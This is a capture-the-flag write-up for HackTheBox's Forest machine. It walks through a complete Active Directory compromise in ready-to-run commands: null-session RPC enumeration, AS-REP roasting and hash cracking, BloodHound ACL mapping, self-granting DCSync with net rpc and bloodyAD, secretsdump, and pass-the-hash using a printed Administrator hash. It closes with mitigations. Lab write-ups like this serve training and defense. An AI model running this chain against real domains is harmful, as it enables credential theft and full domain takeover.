# Forest — HackTheBox Write-up

**Active Directory | Windows Server 2016 | Difficulty: Easy**

🇧🇷 [Versão em português](README.md)

---

## Executive Summary

Forest is a HackTheBox Windows machine built around an Active Directory environment with Microsoft Exchange installed — a setup extremely common in real corporate networks. Full domain compromise was achieved through a four-stage chain: unauthenticated enumeration over SMB/RPC, initial credential access via AS-REP Roasting, privilege-relationship mapping with BloodHound, and abuse of a nested group chain that ultimately grants **WriteDACL** over the domain object itself — enough to self-grant replication rights (**DCSync**) and dump every hash in NTDS.DIT, including the Administrator's.

This class of chain — `GenericAll` on a nested group leading to a group with `WriteDACL` on the domain — is a real, recurring misconfiguration in environments that install Exchange without auditing the elevated permissions the installer grants by default.

## Machine Information

| Attribute | Value |
|---|---|
| Name | Forest |
| Platform | HackTheBox |
| Operating System | Windows Server 2016 Standard (build 14393) |
| Domain | `htb.local` |
| Difficulty | Easy |
| Category | Active Directory |
| Key techniques | RPC/LDAP null session, AS-REP Roasting, ACL Abuse, DCSync, Pass-the-Hash |

---

## 1. Reconnaissance

Port scan with service detection and Nmap's default scripts (`-sC`), which already returns a substantial amount of information on Windows hosts via `smb2-time` and `smb-os-discovery`:

```bash
nmap -sC 10.129.36.8
```



The result identifies the target as a Domain Controller with no further enumeration needed: ports 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog) and 445 (SMB) form the classic DC fingerprint. `smb-os-discovery` confirmed the OS (Windows Server 2016 Standard 14393), the domain (`htb.local`) and hostname (`FOREST`) with zero authentication.

## 2. Enumeration

Testing for unauthenticated (null) sessions against the Domain Controller's RPC endpoint:

```bash
rpcclient -U "" -N 10.129.36.8 -c "enumdomusers"
```



The anonymous bind succeeded and returned all 32 domain users, including human accounts (`sebastien`, `lucinda`, `andy`, `mark`, `santi`), default Exchange service accounts (`SM_*`) and Health Mailbox accounts — all auto-generated by the Exchange installation. This system-account noise is a strong tell that Exchange-related permission groups with broad domain rights are likely present too.

## 3. Initial Access — AS-REP Roasting

Testing which accounts have Kerberos pre-authentication disabled (`UF_DONT_REQUIRE_PREAUTH`):

```bash
impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt -dc-ip 10.129.36.8
```



`svc-alfresco` — a service account absent from the original enumeration — returned a `$krb5asrep$23$` hash. Service accounts are the classic target for this technique: they rarely appear in security reviews and often keep default settings from creation.

Offline cracking with John the Ripper:

```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt alfrescohash.txt
```



Password recovered: **`s3rvice`**.

## 4. Access Validation and User Flag

```bash
nxc winrm 10.129.36.8 -u 'svc-alfresco' -p 's3rvice'
```



```bash
evil-winrm -i 10.129.36.8 -u svc-alfresco -p s3rvice
```



## 5. Privilege Escalation — Mapping the Domain with BloodHound

From here, manually tracing group memberships and ACLs stops being practical — time to switch from linear enumeration to graph analysis:

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -ns 10.129.36.8 -c All
```



Inspecting the `htb.local` domain node revealed that the **Exchange Windows Permissions** group holds `WriteDacl` directly on the domain object:



A real, well-documented misconfiguration: the Microsoft Exchange installation process automatically grants elevated permissions to management groups — in this case, full control over the domain's own DACL.

Pathfinding to check whether `svc-alfresco` had a route into that group:



Chain: `svc-alfresco` → `Service Accounts` → `Privileged IT Accounts` → `Account Operators` **(GenericAll)** → `Exchange Windows Permissions`.

## 6. Chain Exploitation — From GenericAll to DCSync

1. Add `svc-alfresco` to `Exchange Windows Permissions`, using `GenericAll` inherited from `Account Operators`.
2. Use the inherited `WriteDacl` over the domain to grant `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All`.
3. Run DCSync.

```bash
net rpc group addmem "Exchange Windows Permissions" svc-alfresco \
    -U htb.local/svc-alfresco%s3rvice -S 10.129.36.8

bloodyAD -H 10.129.36.8 -d htb.local -u svc-alfresco -p s3rvice add dcsync svc-alfresco
```



> **Practical note:** the first attempt to grant DCSync failed with `insufficientAccessRights` because `addmem` had never been verified. Only after confirming membership with `net rpc group members` did it become clear step 1 hadn't actually completed — lesson: confirm every link before moving to the next.

## 7. DCSync and Full Domain Compromise

```bash
impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.129.36.8
```


Result: Administrator's NTLM hash (`32693b11e6aa90eb43d32c72a07ceea6`), `krbtgt`'s hash, and every other account.

## 8. Root Flag — Pass-the-Hash

```bash
evil-winrm -i 10.129.36.8 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```



---

## 9. Attack Chain — Summary

1. Nmap identifies a Domain Controller (`htb.local`).
2. A null RPC session enumerates all 32 domain users with zero credentials.
3. AS-REP Roasting reveals `svc-alfresco` has pre-authentication disabled.
4. The hash is cracked offline with John the Ripper (password: `s3rvice`).
5. WinRM access is confirmed — first flag captured.
6. BloodHound maps the domain and reveals `Exchange Windows Permissions` holds `WriteDacl` over `htb.local`.
7. Pathfinding shows the route via `Account Operators` (`GenericAll`).
8. `svc-alfresco` adds itself to the group, inherits `WriteDacl`, and grants itself DCSync.
9. `secretsdump` extracts the full NTDS.DIT, including the Administrator's hash.
10. Pass-the-Hash completes total domain compromise.

## 10. Technical Takeaways

- Null SMB/RPC sessions still exist in legacy environments and allow complete enumeration with zero credentials.
- Service accounts are the most productive target for AS-REP Roasting and Kerberoasting.
- Nested group chains hide real privilege: `GenericAll` on a seemingly harmless group can amount to full domain control.
- Microsoft Exchange installation is a recurring source of AD privilege escalation.
- Graph-based analysis tools (BloodHound) become indispensable once a domain has more than a handful of objects.
- DCSync is the end goal of any ACL-abuse chain that reaches domain-level replication rights.

## 11. Mitigation Recommendations

- Disable SMB null sessions and anonymous LDAP/RPC binds.
- Enforce mandatory Kerberos pre-authentication on every account, with particular attention to service accounts.
- Apply strong passwords and periodic rotation to service accounts.
- Regularly audit privileged group membership and review permissions granted by installers such as Exchange's.
- Monitor and alert on DACL changes to Tier Zero objects.
- Detect DRSUAPI calls originating from anything other than a legitimate Domain Controller.

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port scanning and service detection |
| rpcclient | User enumeration via null RPC session |
| Impacket (GetNPUsers, secretsdump) | AS-REP Roasting and credential extraction via DCSync |
| John the Ripper | Offline hash cracking (AS-REP) |
| NetExec (nxc) | Credential validation against remote services |
| Evil-WinRM | Interactive WinRM shell, including Pass-the-Hash |
| BloodHound / bloodhound-python | Mapping AD privilege relationships |
| net rpc (Samba) | Group membership manipulation via RPC |
| bloodyAD | ACL/DACL manipulation via LDAP |
